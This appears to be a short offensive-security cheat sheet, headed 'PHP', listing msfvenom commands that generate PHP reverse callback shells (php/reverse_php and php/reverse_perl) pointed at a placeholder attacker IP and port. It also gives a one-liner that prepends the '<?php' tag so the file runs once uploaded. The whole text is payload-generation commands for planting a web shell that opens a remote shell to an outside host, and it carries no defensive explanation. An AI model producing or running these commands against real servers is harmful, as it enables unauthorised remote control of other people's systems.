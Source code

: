 # PHP

- PHP reverse callback shell

`$ msfvenom -p php/reverse_php lhost=<IP> lport=<PORT> -f raw -o shell.php`

- PHP with perl code reverse callback shell

`$ msfvenom -p php/reverse_perl lhost=<IP> lport=<PORT> -f raw -o shell.php`

- After generating the PHP reverse callback shell include the tags to ensure execution.

```
$ cat shell.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> shell.php
```